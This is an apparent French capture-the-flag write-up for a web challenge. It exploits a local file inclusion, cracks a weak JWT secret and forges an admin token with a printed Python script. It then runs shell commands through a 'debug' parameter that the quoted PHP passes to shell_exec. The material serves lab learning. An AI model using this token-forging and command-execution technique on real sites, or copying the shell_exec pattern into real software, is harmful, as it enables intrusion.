






# Write-Up

On part d’une page web qui nous permet de lister des ingrédients "pour une glace comme fait notre papi", la première vulnérabilité est une Local File Inclusion, en effet en modifiant le paramètre `dir=ingredients` par `dir=/`, on peut lister les fichiers et dossiers du dossier courant :



Voici le fichier admin.php :

```php
<?php
$canExecute = false;
$secret = trim(file_get_contents('jwt_secret.txt'));

$adminToken = trim(file_get_contents('role.txt'));

function base64url_encode($data) {
    return rtrim(strtr(base64_encode($data), '+/', '-_'), '=');
}

function base64url_decode($data) {
    return base64_decode(strtr($data, '-_', '+/'));
}

function verify_jwt_hs256($jwt, $secret) {
    $parts = explode('.', $jwt);
    if (count($parts) !== 3) return false;

    list($header_b64, $payload_b64, $sig_b64) = $parts;
    $expected_sig = base64url_encode(hash_hmac('sha256', "$header_b64.$payload_b64", $secret, true));

    if (!hash_equals($expected_sig, $sig_b64)) return false;

    return json_decode(base64url_decode($payload_b64), true);
}

function is_admin($jwt, $secret, $adminRole) {
    $payload = verify_jwt_hs256($jwt, $secret);
    if (!$payload) return false;
    return isset($payload['role']) && strtoupper(trim($payload['role'])) === strtoupper(trim($adminRole));
}

if (isset($_COOKIE['auth'])){
    if (is_admin($_COOKIE['auth'], $secret, $adminToken)) {
        
    
    $canExecute = true;
    }
}

if (!$canExecute) {
    $header = base64url_encode(json_encode(['alg' => 'HS256', 'typ' => 'JWT']));
    $payload = base64url_encode(json_encode(['role' => 'simple-utilisateur']));
    $signature = base64url_encode(hash_hmac('sha256', "$header.$payload", $secret, true));

    $jwt = "$header.$payload.$signature";

    setcookie('auth', $jwt, time() + 3600, "/");
    $_COOKIE['auth'] = $jwt;
}

if ($_SERVER['REQUEST_METHOD'] === 'GET' && isset($_GET['debug'])) {
    if (!$canExecute) {
        echo "<p>Tu ne peux pas executer de commandes avec debug tant que tu n'es pas authentifié en tant qu'admin</p>";
        exit;
    }

    $cmd = $_GET['debug'];
    $output = shell_exec($cmd);
    echo "<pre>$output</pre>";
    exit;
}
?>
```

Ce script récupère le secret JWT depuis `jwt_secret.txt` et le rôle admin attendu depuis `role.txt`, puis il vérifie le JWT du cookie, génère un token "simple-utilisateur" si l’utilisateur n’est pas admin, et n’autorise l’exécution de commandes via ?debug qu’en cas de correspondance entre le rôle du JWT et celui de `role.txt`.

L'idéal serait donc de pouvoir récupérer le secret jwt et le rôle admin pour forger le token admin, mais ce n'est pas vraiment possible via le `?dir`.

En revanche en indiquant uniquement `/role.txt` à partir de l'url on recupère le vrai rôle admin :



> [!NOTE] 
> Après coup je me suis rendu compte que l'on pouvait également récupérer le secret jwt avec cette même méthode mais idiot comme je suis je n'ai même pas testé x)

Nous avons accès au token jwt avec le rôle "simple-utilisateur" au départ mais il faut le secret jwt pour forger le bon token pour le rôle admin, on peut utiliser jwt_tool pour cracker ce secret (ou hashcat) :



On utilise un script python pour forger le bon token maintenant que nous avons tout ce dont on a besoin :

```python
import hmac
import hashlib
import base64
import json

def b64url(data: bytes) -> str:
    return base64.urlsafe_b64encode(data).rstrip(b'=').decode()

def make_jwt(secret: str, role: str, header_b64: str = None) -> str:
    if header_b64:
        h_b64 = header_b64
    else:
        h_b64 = b64url(json.dumps({'alg':'HS256','typ':'JWT'}, separators=(',',':')).encode())
    p_b64 = b64url(json.dumps({'role':role}, separators=(',',':')).encode())
    sig = hmac.new(secret.encode(), f"{h_b64}.{p_b64}".encode(), hashlib.sha256).digest()
    s_b64 = b64url(sig)
    return f"{h_b64}.{p_b64}.{s_b64}"

if __name__ == '__main__':
    secret = 'icecream'
    role = 'PAPI-JE-SUIS-UN-ADMIN'
    print(make_jwt(secret, role))
```



On remplace le token simple utilisateur par ce token admin dans notre navigateur et on regarde si l'on peut effectuer des commandes à l'aide de l'option `?debug` :


Nous sommes admin, il ne reste plus qu'à trouver le flag maintenant, en fouillant un peu on le trouve dans secrets/.recette_de_papi :



**Flag**

`SHLK{Ic3_Cr3am_L0v3r}`
